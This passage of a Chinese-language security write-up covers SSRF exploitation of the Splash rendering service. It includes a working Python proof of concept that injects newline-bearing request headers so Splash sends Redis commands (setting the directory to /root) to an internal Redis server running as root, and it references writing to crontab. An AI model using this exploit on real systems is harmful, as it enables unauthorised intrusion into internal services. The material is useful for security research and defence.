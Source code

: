 ```python
    # 获取写入crontab结果
    get_result(splash_api, docker_api, container_id)

```

## 其他利用思路

其他思路的话，首先想到 ssrf 配合 `gopher` 协议，然后结合内网 redis，因为splash是基于qt的， 查了一下[文档](https://wiki.python.org/moin/PyQt/Adding%20the%20Gopher%20Protocol%20to%20QtWebKit) ，qtwebkit 默认不支持 `gopher` 协议，所以无法使用 `gopher` 。

后来经过测试，发现请求 `headers` 可控 ，并且支持 `\n` 换行

这里测试选择了 redis 3.2.8 版本，以root权限运行，监听在 172.16.10.74，测试脚本如下，可以成功执行

```python
# -*- coding: utf-8 -*-
__author__ = 'b1ng'

import requests

def test_get(api, redis_api):
    url = "%s/render.html" % api

    params = {
        'url': redis_api,
        'timeout': 10
    }
    resp = requests.post(url, params=params, json={
        'headers': {
            'config set dir /root\n': '',
        },
    })

    print(resp.request.url)
    print(resp.status_code)
    print(resp.text)

if __name__ == '__main__':
    # splash地址和端口
    splash_host = '192.168.1.120'
    splash_port = 8050

    # 内网docker的地址和端口
    docker_host = '172.16.10.74'
    docker_port = 6379

    splash_api = "http://%s:%d" % (splash_host, splash_port)
    docker_api = 'http://%s:%d' % (docker_host, docker_port)

    test_get(splash_api, docker_api)
```
